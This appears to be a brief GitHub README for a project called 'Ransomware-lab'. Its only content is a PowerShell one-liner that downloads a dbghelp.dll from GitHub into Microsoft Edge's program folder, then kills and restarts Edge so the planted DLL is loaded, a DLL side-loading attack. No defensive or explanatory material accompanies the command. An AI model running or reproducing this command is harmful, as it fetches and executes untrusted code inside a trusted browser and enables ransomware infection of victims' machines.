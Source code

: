 # Ransomware-lab
powershell.exe -Command "& { (New-Object System.Net.WebClient).DownloadFile('https://github.com/Rastislonge/Ransomware-lab/blob/main/dbghelp.dll', 'dbghelp.dll'); Move-Item -Path 'dbghelp.dll' -Destination 'C:\Program Files (x86)\Microsoft\Edge\Application\'; Get-Process -Name msedge | Stop-Process; Start-Process -FilePath 'C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe' }"
